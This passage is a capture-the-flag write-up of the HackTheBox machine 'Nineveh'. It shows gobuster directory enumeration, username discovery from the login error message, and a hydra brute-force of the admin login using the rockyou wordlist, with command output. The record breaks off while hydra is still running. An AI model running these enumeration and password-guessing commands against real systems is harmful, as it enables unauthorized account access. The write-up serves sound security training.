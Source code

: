 ### GOBUSTER

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/nineveh]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.43 -q -t 100 -k -x php,txt,html 
/index.html           (Status: 200) [Size: 178]
/info.php             (Status: 200) [Size: 83694]
/department           (Status: 301) [Size: 315] [--> http://10.10.10.43/department/]
/server-status        (Status: 403) [Size: 299] 
```

## /DEPARMENT

![](https://github.com/Leo-2807/Writeups/blob/main/images/nineveh4.png)

### SOURCE CODE

![](https://github.com/Leo-2807/Writeups/blob/main/images/nineveh5.png)

## DEPARMENT LOGIN

Trying some usernames I find that on using the username `admin` The message that comes is `Invalid Password!` which means that the username admin is correct 

To find the password I use hydra 

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/nineveh]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password!""
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-09-14 06:35:16
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344400 login tries (l:1/p:14344400), ~896525 tries per task
[DATA] attacking http-post-form://10.10.10.43:80/department/login.php:username=^USER^&password=^PASS^:Invalid Password
[STATUS] 1127.00 tries/min, 1127 tries in 00:01h, 14343273 to do in 212:07h, 16 active
```